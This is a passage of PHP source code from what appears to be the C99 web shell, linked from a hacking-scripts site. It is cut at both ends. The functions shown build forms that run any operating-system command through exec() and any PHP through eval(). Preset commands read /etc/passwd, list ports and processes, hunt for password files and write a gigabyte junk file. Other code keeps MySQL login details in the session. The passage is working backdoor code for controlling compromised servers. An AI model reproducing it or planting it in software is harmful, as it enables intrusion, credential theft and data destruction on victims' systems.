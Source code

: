 }
function cmd(){ // Command execution function
  style();
  echo("&lt;form name='CMD' method='POST'&gt;");
  echo("&lt;b&gt;Command:&lt;/b&gt;&lt;br&gt;");
  echo("&lt;input name='cmd' type='text' size='50'&gt; ");
  echo("&lt;select name='precmd'&gt;");
  $precmd = array(''=&gt;'','Read /etc/passwd'=&gt;'cat /etc/passwd','Open ports'=&gt;'netstat -an',
                  'Running Processes'=&gt;'ps -aux', 'Uname'=&gt;'uname -a', 'Get UID'=&gt;'id',
                  'Create Junkfile (/tmp/z)'=&gt;'dd if=/dev/zero of=/tmp/z bs=1M count=1024',
                  'Find passwd files'=&gt;'find / -type f -name passwd');
  $capt = array_flip($precmd);
  foreach($precmd as $c){echo("&lt;option value='" . $c . "'&gt;" . $capt[$c] . "\n");}
  echo("&lt;/select&gt;&lt;br&gt;\n");
  echo("&lt;input type='submit' value='Execute'&gt;\n");
  echo("&lt;/form&gt;\n");
  if($_POST['cmd'] != ""){$x = $_POST['cmd'];}
  elseif($_POST['precmd'] != ""){$x = $_POST['precmd'];}
  else{die();}
  echo("Results: &lt;br&gt;&lt;textarea rows=20 cols=100&gt;");
  $cmd = @exec($x, $result);
  foreach($result as $line){echo($line . "\n");}
  echo("&lt;/textarea&gt;");
}
function execphp(){ // PHP code execution function
  style();
  echo("&lt;h4&gt;Execute PHP Code&lt;/h4&gt;");
  echo("&lt;form method='POST'&gt;");
  echo("&lt;textarea name='phpexec' rows=5 cols=100&gt;");
  if(!$_POST['phpexec']){echo("/*Don't include <? ?> tags*/\n");}
  echo(htmlentities($_POST['phpexec']) . "&lt;/textarea&gt;\n&lt;br&gt;\n");
  echo("&lt;input type='submit' value='Execute'&gt;");
  echo("&lt;/form&gt;");
  if($_POST['phpexec']){
    echo("&lt;textarea rows=10 cols=100&gt;");
    eval(stripslashes($_POST['phpexec']));
    echo("&lt;/textarea&gt;");
  }
}
function sqllogin(){ // MySQL login function
  session_start();
  if($_SESSION['isloggedin'] == "true"){
    header("Location: ?act=sql");
  }
  style();
  echo("&lt;form method='post' action='?act=sql'&gt;");
  echo("User:&lt;br&gt;&lt;input type='text' name='un' size='30'&gt;&lt;br&gt;\n");
  echo("Password:&lt;br&gt;&lt;input type='text' name='pw' size='30'&gt;&lt;br&gt;\n");
  echo("Host:&lt;br&gt;&lt;input type='text' name='host' size='30' value='localhost'&gt;&lt;br&gt;\n");
  echo("Port:&lt;br&gt;&lt;input type='text' name='port' size='30' value='3306'&gt;&lt;br&gt;\n");
  echo("&lt;input type='submit' value='Login'&gt;");
  echo("&lt;/form&gt;");
  die();
}
function sql(){ // General SQL Function
  session_start();
  if(!$_GET['sqlf']){style();}
  if($_POST['un'] && $_POST['pw']){;
    $_SESSION['sql_user'] = $_POST['un'];
    $_SESSION['sql_password'] = $_POST['pw'];
  }
  if($_POST['host']){$_SESSION['sql_host'] = $_POST['host'];}
  else{$_SESSION['sql_host'] = 'localhost';}

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"